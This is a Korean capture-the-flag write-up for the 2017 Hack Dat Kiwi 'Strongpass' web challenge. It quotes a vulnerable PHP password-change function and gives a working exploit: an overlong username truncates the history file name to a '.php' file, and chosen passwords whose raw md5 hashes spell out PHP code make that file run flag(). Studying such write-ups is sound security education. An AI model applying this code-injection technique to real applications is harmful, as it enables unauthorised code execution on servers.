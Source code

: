 # [WEB] Hack Dat Kiwi CTF 2017 - Strongpass

# Description

>   문제 페이지 닫힘

# Analysis

해당 문제는 소스가 주어졌다.

기능은 크게 4가지이며 회원 가입, 로그인, 로그아웃, 패스워드 변경이다.

해당 기능은 `user.php`에 정의되어 있다.

4가지의 기능 중, 로그인이나 로그아웃에서는 취약점이 발생하지 않을 것 같았고, 패스워드 변경에서는 취약점에 발생하게 좋게 생겼다.

패스워드 변경 함수의 소스를 보자

```php
function changepass($oldpass,$newpass)
{
	if (!isset($_SESSION['login'])) return false;
	$userid=$_SESSION['login']['id'];
	if (strlen($newpass)<8) return false;
	if (!sql("select * from users where id=? and password=?",$userid,md5($oldpass)))
		return false;
	if ($newpass===$oldpass) return false;
	function get_password_history()
	{
		$file=password_history_file();
		if (!file_exists($file))
			return [];
		else
			return explode(PHP_EOL,file_get_contents($file)); 
	}
	function password_history_file()
	{
		$username=$_SESSION['login']['username'];
		return realpath(__DIR__."/history")."/".substr("{$username}.pss",0,255);//filename length limit
	}
	//check if password not used before
	$hash=hex2bin(md5($newpass));
	$pass_history=get_password_history();
	foreach ($pass_history as $one_of_old_passes)
		if ($hash===$one_of_old_passes)
			return false;
	array_unshift($pass_history, $hash);
	file_put_contents(password_history_file(), implode(PHP_EOL,$pass_history));
	return sql("update users set password=? where id=?",md5($newpass),$userid);
}
```

우선 변경할 패스워드가 8자리 이상이고, 이전에 사용하지 않은 패스워드여야 변경이 된다.

변경했던 패스워드 내역은 ./history/유저네임.pss 안에 패스워드를 md5 해쉬한 값을 raw값으로 저장한다.

취약점은 이 부분에서 발생한다.

또한 config.php에 flag()함수를 호출하면 flag를 리턴해준다.

# Exploit

1. php command injection upload using changepass

## 1. php command injection using changepass

회원 가입할 때 아이디의 길이를 제한하지 않기 때문에 아이디를 255자보다 길게 가입이 가능하다.

`username=11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

아이디를 길게하면 패스워드 변경할 때 저장되는 파일이름을 .php로 저장하여 php를 실행할 수 있게 된다.

`/history/11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

우리가 플래그를 얻기위해 php에 저장할 내용은 다음과 같다.

```php
<?
	$a=flag;
	$a();
?>
```

이제 md5의 raw값으로 php코드를 만들기 위해 다음 문자열로 시작하는 md5값을 구해보자.

1. \<?# : !wo352rgxkf8
2. $a# : G14$W41KER
3. =# : TCCU6IDENTTFD
4. f.# : Bvsycr9n9iwohnja
5. l.# : NIKF0RIDI5
6. a.# : 86dpqerat
7. g;# : dxvoowxIqS4E$
8. $a# : crs3t4bkedkwstf
9. ()# : HAGO580WBYKDLTIVP
10. ;# : Kfmrwgbmncahe
11. ?> : pb5wd26lqed4

변경한 패스워드는 파일에 저장되므로, 위 md5값이 나오는 패스워드를 `?>`부터 역순으로 변경한다.

그러면 최종적으로 아래와 같이 완성된다.

```php
<?#
  $a#
  =#
  f.#
  l.#
  a.#
  g;#
  $a#
  ()#
  ;#
?>
```

이제 패스워드가 저장된 파일인 `111...1.php`에 접속하면 flag를 얻을 수 있다.



